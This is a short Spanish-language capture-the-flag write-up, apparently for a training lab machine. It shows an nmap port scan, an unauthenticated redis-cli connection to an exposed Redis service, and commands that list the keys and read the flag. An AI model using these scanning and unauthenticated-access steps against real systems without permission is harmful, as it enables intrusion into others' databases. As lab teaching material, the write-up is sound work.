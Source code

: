 ## Datos principales

* #Enumeracion de puertos
* #Redis
* #basesdedatos 
* #Acceso sin credenciales / Credenciales por defecto
* SO : #Linux

## Enumeración de puertos

Para  empezar el escaneo usamos la herramienta Nmap, en nuestra fase de descubrimiento , como se puede apreciar tenemos los siguientes puertos abiertos:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.172.166
```

Puerto abierto:
	*6379* --> redis

Podemos ver que esta levantado el servicio de redis, por lo tanto voy a comprobar si me puedo conectar al servicio como dice en su manual.

```bash
redis-cli -h <ip> 
redis-cli -h 10.129.136.187
```


La opción *-h* es para decirle que damos una dirección ip.

Vemos que tenemos acceso sin poner ninguna contraseña

```bash
10.139.136.187:6379> 
```

Para poder listar el contenido de la base de datos tenemos que usar la palabra reservada key:

```bash
10.139.136.187:6379> keys *
1) "numb"
2) "temp"
3) "stor"
4) "flag"
```

Vemos que en la tabla 4 se encuentra la tabla “flag” por lo tanto tenemos que ver el contenido de esa tabla para ello he investigado y el comando es:

```bash
10.139.136.187:6379> get flag
```
